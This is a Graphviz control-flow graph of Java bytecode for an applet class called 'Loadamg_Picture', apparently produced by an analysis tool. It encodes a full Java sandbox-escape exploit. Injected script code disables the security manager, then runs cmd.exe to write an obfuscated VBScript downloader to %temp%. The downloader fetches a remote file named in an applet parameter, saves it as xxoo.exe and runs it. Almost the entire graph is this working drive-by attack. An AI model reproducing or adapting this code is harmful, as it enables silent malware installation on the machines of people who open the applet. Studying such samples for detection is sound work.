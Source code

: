 digraph "" {
    "r0 := @this: Loadamg_Picture"
    "load.r r0"
    "r0 := @this: Loadamg_Picture"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "store.r $r10"
    "newarray"->"store.r $r10";
    "load.r $r10"
    "store.r $r10"->"load.r $r10";
    "push 0"
    "load.r $r10"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "dup1.r"
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"js\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"js\"";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "push \"js\""->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"data\""
    "load.r r0"->"push \"data\"";
    "virtualinvoke <Loadamg_Picture: java.lang.String getParameter(java.lang.String)>"
    "push \"data\""->"virtualinvoke <Loadamg_Picture: java.lang.String getParameter(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <Loadamg_Picture: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "new java.lang.StringBuffer"
    "store.r r1"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"var error = new Error(\\\"My error\\\");this.toString = function(){ java.lang.System.setSecurityManager(null);java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo dim m,s>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo m=\\\"M^i^c^r^o^s^o^f^t^.^X^M^L^H^T^T^P\\\">>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo s=\\\"A=D=O=DB=.=S=t=r=e=a=m\\\">>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"^\\\",\\\"\\\")) >>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"=\\\",\\\"\\\"))>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\down.vbs\\\" \""
    "dup1.r"->"push \"var error = new Error(\\\"My error\\\");this.toString = function(){ java.lang.System.setSecurityManager(null);java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo dim m,s>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo m=\\\"M^i^c^r^o^s^o^f^t^.^X^M^L^H^T^T^P\\\">>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo s=\\\"A=D=O=DB=.=S=t=r=e=a=m\\\">>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"^\\\",\\\"\\\")) >>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"=\\\",\\\"\\\"))>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\down.vbs\\\" \"";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"
    "push \"var error = new Error(\\\"My error\\\");this.toString = function(){ java.lang.System.setSecurityManager(null);java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo dim m,s>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo m=\\\"M^i^c^r^o^s^o^f^t^.^X^M^L^H^T^T^P\\\">>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo s=\\\"A=D=O=DB=.=S=t=r=e=a=m\\\">>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"^\\\",\\\"\\\")) >>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"=\\\",\\\"\\\"))>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\down.vbs\\\" \""->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "load.r r1"
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"load.r r1";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "load.r r1"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \" \\\"%temp%\\\\xxoo.exe\\\"&& \\\"%temp%\\\\xxoo.exe\\\"\');\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \" \\\"%temp%\\\\xxoo.exe\\\"&& \\\"%temp%\\\\xxoo.exe\\\"\');\"";
    "push \" \\\"%temp%\\\\xxoo.exe\\\"&& \\\"%temp%\\\\xxoo.exe\\\"\');\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"return \\\"exploit!\\\";};\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"return \\\"exploit!\\\";};\"";
    "push \"return \\\"exploit!\\\";};\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"error.message = this;\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"error.message = this;\"";
    "push \"error.message = this;\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "push \"error\""
    "pop"->"push \"error\"";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "push \"error\""->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "new javax.swing.JList"
    "arraywrite.r"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"load.r $r10";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "load.r $r10"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <Loadamg_Picture: javax.swing.JList list>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <Loadamg_Picture: javax.swing.JList list>";
    "fieldput <Loadamg_Picture: javax.swing.JList list>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <Loadamg_Picture: javax.swing.JList list>"
    "load.r r0"->"fieldget <Loadamg_Picture: javax.swing.JList list>";
    "virtualinvoke <Loadamg_Picture: java.awt.Component add(java.awt.Component)>"
    "fieldget <Loadamg_Picture: javax.swing.JList list>"->"virtualinvoke <Loadamg_Picture: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <Loadamg_Picture: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"
    "virtualinvoke <Loadamg_Picture: java.awt.Component add(java.awt.Component)>"->"virtualinvoke <javax.script.ScriptException: void printStackTrace()>";
}
